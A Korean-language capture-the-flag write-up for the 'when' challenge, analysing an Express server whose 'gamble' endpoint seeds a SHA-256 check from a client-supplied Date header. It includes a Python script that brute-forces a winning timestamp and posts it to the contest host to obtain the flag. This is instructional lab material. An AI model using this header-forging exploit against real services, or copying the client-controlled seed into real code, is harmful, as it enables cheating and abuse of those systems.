 # when

## 코드 분석

### **app.ts**

Express 앱에 limiter라는 전역 미들웨어가 등록되어 있다. 60초에 60번까지만 /gamble 요청이 가능하다.

```jsx
const limiter = rateLimit({
	windowMs: 60 * 1000,
	limit: 60,// 60 per minutestandardHeaders: 'draft-7',
	legacyHeaders: false,
    skip: (req, res) => {
        return req.path != "/gamble"
    }
})

const app = express()

app.use(limiter)
app.use(express.static(path.join(__dirname, 'static')))
```

클라이언트가 보낸 date 헤더 값을 초 단위 timestamp로 변환한 뒤, 이를 SHA-256 해시하는 부분이다. 만약 date 헤더가 없으면 서버의 현재 시간을 사용한다. 즉, date 값이 곧 뽑기의 시드가 되는 구조이며, 이를 통해 얻어진 해시 결과의 앞 두 바이트가 모두 255가 나오면 FLAG가 반환된다.

```jsx
async function gamble(number: number) {
    return crypto.subtle.digest("SHA-256", Buffer.from(number.toString()))
}

app.post('/gamble', (req, res) => {
    const time = req.headers.date ? new Date(req.headers.date) : new Date()
    const number = Math.floor(time.getTime() / 1000)
    if (isNaN(number)) {
        res.send({
            success: false,
            error: "Bad Date"
        }).status(400)
        return
    }
    gamble(number).then(data => {
        const bytes = new Uint8Array(data)
        if (bytes[0] == 255 && bytes[1] == 255) {
            res.send({
                success: true,
                result: "1111111111111111",
                flag: "bctf{fake_flag}"
            })
        } else {
            res.send({
                success: true,
                result: bytes[0].toString(2).padStart(8, "0") + bytes[1].toString(2).padStart(8, "0")
            })
        }
    })
});
```

## Exploit

date를 헤더를 따로 설정하지 않으면, 서버가 현재 자신의 시간을 사용해서 시드를 생성한다. 이 경우, 서버가 사용하는 시드가 클라이언트가 제어할 수 없는 현재 서버 시간이기 때문에, 클라이언트 입장에서는 어떤 시드가 사용될지 예측할 수 없다. 따라서, 당첨 여부는 전적으로 서버의 현재 시간값에 의존하게 되고, 결과적으로 매 요청마다 당첨될지 아닐지가 무작위로 결정되는 도박성 구조가 된다.

하지만, 시드가 단순히 초 단위 timestamp이기 때문에, 예상 가능한 시드 공간을 미리 전수조사하여 당첨 시드를 계산해낼 수 있다. 이를 역으로 이용해 해시 앞 2바이트가 모두 255가 되는 timestamp를 미리 찾아내면 운이라는 요소를 배제하고 확정적으로 당첨을 만들어낼 수 있는 구조가 된다.

```python
import hashlib
import time
import requests
from email.utils import formatdate

def find_timestamp():
    now = int(time.time())
    for timestamp in range(now - 100000, now + 100000):
        h = hashlib.sha256(str(timestamp).encode()).digest()
        if h[0] == 0xff and h[1] == 0xff:
            print(f"Found timestamp: {timestamp}")
            return timestamp
    return None

def send_gamble_request(timestamp):
    date_header = formatdate(timestamp, usegmt=True)
    headers = {
        "date": date_header
    }
    response = requests.post("https://when.atreides.b01lersc.tf/gamble", headers=headers)
    print(response.text)

if __name__ == "__main__":
    timestamp = find_timestamp()
    if timestamp:
        send_gamble_request(timestamp)

# Found timestamp: 1745272291# {"success":true,"result":"1111111111111111","flag":"bctf{ninety_nine_percent_of_gamblers_gamble_81dc9bdb}"}
```